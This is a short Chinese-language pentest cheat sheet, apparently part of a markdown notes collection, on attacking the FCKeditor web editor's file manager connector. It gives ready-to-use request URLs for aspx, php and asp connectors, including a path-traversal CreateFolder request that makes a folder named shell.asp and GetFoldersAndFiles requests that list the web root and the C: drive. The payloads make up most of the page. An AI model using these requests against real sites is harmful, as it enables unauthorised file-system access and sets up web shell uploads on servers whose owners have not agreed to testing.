 ```yaml
---
title: "四、FCKeditor 列目录"
id: zhfly2937
---
```


# 1、FCKeditor/editor/fckeditor.html

FCKeditor/editor/fckeditor.html不可以上传文件，可以点击上传图片按钮再选择浏览服务器即可跳转至可上传文件页，可以查看已经上传的文件。

# 2、根据xml返回信息查看网站目录

```
http://www.-sec.org/fckeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../../&NewFolderName=shell.asp 
```

# 3、获取当前文件夹

```
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/ 
```

# 4、游览c盘

```
/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=c:/ 
```